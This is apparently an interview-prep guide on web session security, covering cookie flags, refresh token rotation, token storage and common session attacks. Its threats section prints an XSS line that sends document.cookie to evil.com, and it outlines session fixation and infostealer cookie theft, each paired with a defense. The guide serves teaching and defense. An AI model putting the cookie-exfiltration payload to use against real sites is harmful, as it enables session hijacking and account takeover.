

# Sessions, Cookies, and Token Security Architecture

## 1. Topic & Definition
Session management governs the stateful or stateless continuity of an authenticated user's interactions across stateless HTTP requests.

### Stateful Sessions vs Stateless Tokens
- **Stateful (Session-ID Architecture):** The server generates a cryptographically random, high-entropy session identifier upon authentication, stores the session data (user ID, permissions, expiration) in server memory or a distributed store (e.g., Redis, database), and transmits the identifier to the client as an HTTP cookie. The client sends back this ID with each request, requiring a server-side lookup.
- **Stateless (Token Architecture):** The server issues a cryptographically signed token (e.g., JWT) containing user identity and permissions directly to the client. The server verifies the token signature locally on subsequent requests without querying a central database.

---

## 2. How It Works: Cookie Flags, Lifecycles, and Refresh Token Rotation

### A. The Anatomy of a Secure Cookie
An HTTP cookie is set via the `Set-Cookie` response header. Every security flag eliminates a distinct class of web vulnerability:

```http
Set-Cookie: session_id=7a8b9c0d1e2f3g4h5i6j; Path=/; Domain=.enterprise.com; Secure; HttpOnly; SameSite=Strict; Max-Age=3600
```

1. **`Secure`:** Instructs the browser to transmit the cookie strictly over encrypted TLS (`https://`) connections. Prevents cleartext interception over insecure Wi-Fi / man-in-the-middle relays.
2. **`HttpOnly`:** Prohibits client-side scripts (JavaScript `document.cookie`) from reading or altering the cookie. **Directly mitigates XSS-based session hijacking**.
3. **`SameSite`:** Governs whether cookies are attached to cross-site requests. **Primary defense against CSRF**:
   - `SameSite=Strict`: The cookie is never sent in cross-site requests (even when clicking an incoming link from an external email or Google search).
   - `SameSite=Lax` (Modern browser default): Cookies are withheld on cross-site subrequests (images, iframes, POST forms), but sent when navigating top-level GET requests (e.g., clicking a link to the site).
   - `SameSite=None`: Cookies are sent in all contexts, but **requires** the `Secure` flag (`SameSite=None; Secure`).
4. **Cookie Prefixes (`__Host-` and `__Secure-`):**
   - `__Host-CookieName`: Guarantees cookie was set with `Secure`, has `Path=/`, and cannot be set or overwritten by subdomains (prevents subdomain cookie tossing attacks).
   - `__Secure-CookieName`: Guarantees cookie was set with the `Secure` flag.

### B. Access Token vs Refresh Token Architecture
To balance security and user convenience, modern APIs decouple identity verification into two tokens:

| Token Type | Purpose | Lifespan | Storage | Transmission |
| :--- | :--- | :--- | :--- | :--- |
| **Access Token** | Authorizes API requests; contains claims/scopes | Short (5 to 15 minutes) | Browser memory / closure | `Authorization: Bearer <token>` header |
| **Refresh Token** | Obtains new access tokens without re-prompting credentials | Long (7 to 30 days) | `HttpOnly`, `Secure` Cookie or secure DB | Sent only to `/auth/refresh` endpoint |

### C. Refresh Token Rotation (RTR) with Automatic Reuse Detection
Refresh Token Rotation is an advanced defense mechanism where **every time a refresh token is used to obtain a new access token, the refresh token itself is invalidated and replaced with a brand-new one**.



**Why Reuse Detection Works:** If an attacker and a legitimate client both attempt to use the same single-use token, one will inevitably use an already-invalidated token. The auth server recognizes the replay, immediately invalidates the entire token family, and forces a complete credential re-authentication, shutting down the attacker's window of opportunity.

---

## 3. Practical Storage Comparison & Implementation

### Where to Store Client-Side Tokens?

```
+-------------------+----------------------+-----------------------+
| Storage Location  | XSS Vulnerability    | CSRF Vulnerability    |
+-------------------+----------------------+-----------------------+
| localStorage      | ❌ HIGH (JS readable)| ✅ Immune             |
| sessionStorage    | ❌ HIGH (JS readable)| ✅ Immune             |
| JavaScript Memory | ⚠️ Moderate (Re-auth)| ✅ Immune             |
| HttpOnly Cookie   | ✅ IMMUNE to JS read | ⚠️ Vulnerable if not  |
|                   |                      |    using SameSite/CSRF|
+-------------------+----------------------+-----------------------+
```

- **Best Practice for SPAs (React/Vue/Angular):**
  - Store the **Refresh Token** in an `HttpOnly`, `Secure`, `SameSite=Strict` cookie bound only to the `/auth/refresh` path.
  - Keep the **Access Token** strictly in **JavaScript in-memory state** (React state/context). When the page refreshes, run a silent background call to `/auth/refresh` to fetch a new short-lived access token.
  - This architecture achieves **zero exposure to XSS token theft** and **zero vulnerability to CSRF on business API routes**.

---

## 4. Key Differences Matrix: Stateful vs Stateless Sessions

| Criterion | Stateful Sessions (Server Session ID) | Stateless Tokens (JWT) |
| :--- | :--- | :--- |
| **Server Memory Overhead** | Grows linearly with active users (stored in RAM/Redis) | O(1) Zero session RAM overhead |
| **Instant Revocation** | Trivial (Delete key from Redis immediately terminates session) | Difficult (Requires distributed blacklists or short TTL) |
| **Database Bottleneck** | Every single API request requires a database/cache lookup | No database call needed; verified via local crypto math |
| **Cross-Domain Sharing** | Difficult across disparate domains/APIs | Native; portable across distributed microservices |
| **Data Payload Size** | Tiny cookie (~32 bytes UUID) | Moderate to large (hundreds to thousands of bytes) |
| **Token Tampering** | N/A (Server maintains the data authority) | Mitigated by cryptographic digital signatures |

---

## 5. Cybersecurity Relevance, Threats & Attack Vectors

### 1. Session Hijacking via Infostealer Malware / Reverse Proxies
- **Mechanism:** Infostealers (e.g., RedLine, Lumma, Vidar) scan SQLite cookie databases in Chrome/Edge/Firefox (`%LocalAppData%\Google\Chrome\User Data\Default\Network\Cookies`). They extract unexpired session cookies and exfiltrate them via Telegram bots.
- **Exploitation:** Attackers import the stolen cookies into browser extensions, impersonating the victim without knowing passwords or solving MFA.
- **Defense:** Bind session cookies to client TLS client certificates, device compliance IDs, or IP/geographic velocity anomalies.

### 2. Session Fixation Attack
- **Mechanism:** The application does not regenerate the session identifier upon successful login.
- **Exploitation:**
  1. Attacker obtains a valid session ID from the login page (`session_id=attacker_chosen_id`).
  2. Attacker sends a phishing link to the victim: `https://bank.com/login?sid=attacker_chosen_id`.
  3. Victim logs in using their legitimate credentials.
  4. Server associates the victim's authenticated state with the pre-existing `attacker_chosen_id`.
  5. Attacker uses `attacker_chosen_id` to access the victim's account.
- **Defense:** Always issue a **brand-new session ID upon successful authentication** and destroy the pre-auth session ID.

### 3. Cross-Site Scripting (XSS) Cookie Exfiltration
- **Mechanism:** Injected JavaScript executes `fetch('https://evil.com/steal?c=' + document.cookie)`.
- **Defense:** Strict application of the `HttpOnly` flag prevents `document.cookie` from returning the sensitive session token.

---

## 6. Interview Takeaways & Rapid-Fire Q&A

### 60-Second Elevator Pitch
> *"Session security balances stateful server session identifiers against stateless cryptographic tokens. In cookie-based architectures, security relies on three non-negotiable flags: `HttpOnly` to stop XSS theft, `Secure` to enforce TLS transmission, and `SameSite=Strict/Lax` to eliminate CSRF. For modern decoupled architectures, the gold standard utilizes short-lived (5-minute) in-memory Access Tokens paired with HttpOnly Refresh Tokens backed by Refresh Token Rotation (RTR) with automatic reuse detection, guaranteeing that if a token is ever intercepted and replayed, the entire compromised session family is immediately revoked."*

### Candidate Traps & Common Mistakes
- **Trap 1:** Recommending `localStorage` for JWT access tokens. *Correction:* Any XSS vulnerability gives the attacker immediate, full-scope access to the token via `localStorage.getItem()`.
- **Trap 2:** Believing `HttpOnly` stops CSRF. *Correction:* `HttpOnly` only stops JavaScript from *reading* the cookie; the browser will still automatically attach the cookie to cross-site requests unless `SameSite` or anti-CSRF tokens are enforced.
- **Trap 3:** Not regenerating session IDs on login. *Correction:* Failing to change the session ID upon authentication leaves the application wide open to Session Fixation.

### Expected Follow-Up Questions
1. *What is the difference between `SameSite=Lax` and `SameSite=Strict`?*
   - `Strict` suppresses the cookie on ALL cross-site requests, including incoming top-level link clicks from external websites. `Lax` allows the cookie to be sent during top-level GET navigations (e.g., clicking a link from an email), providing a balance of security and usability.
2. *What is a cookie tossing attack and how do prefixes solve it?*
   - A malicious subdomain (`evil.example.com`) sets a cookie for parent domain `.example.com` to overwrite legitimate session tokens. The `__Host-` cookie prefix prevents this by enforcing that the cookie can only be set from the exact host without subdomain inheritance.
